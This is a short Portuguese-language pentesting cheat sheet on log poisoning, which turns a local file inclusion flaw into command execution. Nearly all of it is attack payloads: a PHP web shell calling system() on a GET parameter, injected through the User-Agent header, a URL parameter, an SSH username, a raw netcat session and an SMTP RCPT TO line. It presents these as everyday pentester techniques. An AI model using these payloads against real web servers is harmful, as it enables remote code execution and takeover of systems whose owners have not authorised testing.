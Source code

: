 
# LFI - Log Poisoning

## Log Poisoning Web Server
> Se a aplicação web é vulnerável a LFI, é possível tentar injetar uma webshell dentro do agente de usuário(User-Agent) ou através de um parâmetro GET, e dessa forma acessando o arquivo de log atráves do LFI como "http://www.teste.com/file.php?arquivo=/var/log/apache2&cmd=ls"
* User-Agent:
```yaml
GET /arquivo.php?file=/
Host: www.teste.com
User-Agent: <?php system($_GET['c']); ?>
```
* Parâmetro GET
```yaml
http://www.teste.com/arquivo.php?img=<?php system($_GET['cmd']); ?>
```
## Log Poisoning SSH
> Através dos logs do SSH (/var/log/auth.log), é possível utilizar a técnica através de um usuário ou via netcat
* Usuário SSH
```yaml
root@pop-os:/home/victor# ssh '<?php system($_GET['cmd']); ?>'@192.168.4.160
```
* Netcat SSH
```yaml
root@pop-os:/home/victor# nc -v teste.com.br 22
Connection to teste.com.br (31.3.2.1) 22 port [tcp/ssh] succeeded!
<?php system($_GET['c']); ?>
``` 
## Log Poisoning via /proc/self/environ
> Através desse arquivo, conseguimos injetar uma web shell no User-Agent.
```yaml
GET /arquivo.php?file=/
Host: www.teste.com
User-Agent: <?php system($_GET['c']); ?>
```

## Log Poisoning SMTP
> O arquivo de log do SMTP (/var/mail/mail.log) é possível injetar uma webshell no usuário de email
```yaml
nc -vn 192.168.4.160 25
MAIL FROM: email@gmail.com
RCPT TO: <?php system($_GET[‘cmd’]); ?>
```
<h5>
Claro que existe diversas possibilidades, porém demonstrei algumas bem utilizadas no dia a dia de um pentester.</h5>
